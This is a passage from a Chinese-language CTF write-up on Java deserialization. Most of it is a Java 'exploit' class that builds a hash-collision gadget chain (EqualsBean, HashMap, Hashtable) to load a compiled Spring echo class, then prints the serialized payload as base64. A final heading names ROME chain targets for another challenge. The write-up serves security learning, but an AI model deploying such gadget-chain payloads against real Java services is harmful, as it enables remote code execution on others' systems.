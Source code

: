```java
import java.util.Hashtable;

public class exploit {
    public static void setFieldValue(Object obj,String fieldname,Object value)throws Exception{
        Field field = obj.getClass().getDeclaredField(fieldname);
        field.setAccessible(true);
        field.set(obj,value);
    }
    public static void main(String[] args) throws Exception{
        CoffeeBean toStringBean = new CoffeeBean();
        Class c = toStringBean.getClass();
        Field classByteField = c.getDeclaredField("ClassByte");
        classByteField.setAccessible(true);
        byte[] bytes = Files.readAllBytes(Paths.get("C:\\Users\\bmth\\Desktop\\作业\\CTF学习\\java学习\\反序列化\\out\\production\\反序列化\\SpringEcho.class"));
        classByteField.set(toStringBean,bytes);

        EqualsBean bean = new EqualsBean(String.class,"a");

        HashMap map1 = new HashMap();
        HashMap map2 = new HashMap();
        map1.put("yy",bean);
        map1.put("zZ",toStringBean);
        map2.put("zZ",bean);
        map2.put("yy",toStringBean);
        Hashtable table = new Hashtable();
        table.put(map1,"1");
        table.put(map2,"2");

        setFieldValue(bean,"beanClass",CoffeeBean.class);
        setFieldValue(bean,"obj",toStringBean);

        //序列化
        ByteArrayOutputStream baos = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(baos);
        oos.writeObject(table);
        oos.close();
        System.out.println(new String(Base64.getEncoder().encode(baos.toByteArray())));

//        InputStream inputStream = new ByteArrayInputStream(Base64.getDecoder().decode(new String(Base64.getEncoder().encode(baos.toByteArray()))));
//        AntObjectInputStream antInputStream = new AntObjectInputStream(inputStream);
//        antInputStream.readObject();
    }
}
```
加载Spring回显类即可，注意这里传参方式是`@RequestBody CoffeeRequest coffee`，需要使用json传
![](https://img-blog.csdnimg.cn/0f4c4f4f7e1449c1b26007b81a48ed56.png)

#### [2022安洵杯]ezjaba
拿到源码可以发现存在rome-1.7.0，postgresql-42.3.1，mysql-connector-java-8.0.12 那么很明显就是打rome链了
![](https://img-blog.csdnimg.cn/f40285f0343f46afb394f16bfdf15eee.png)

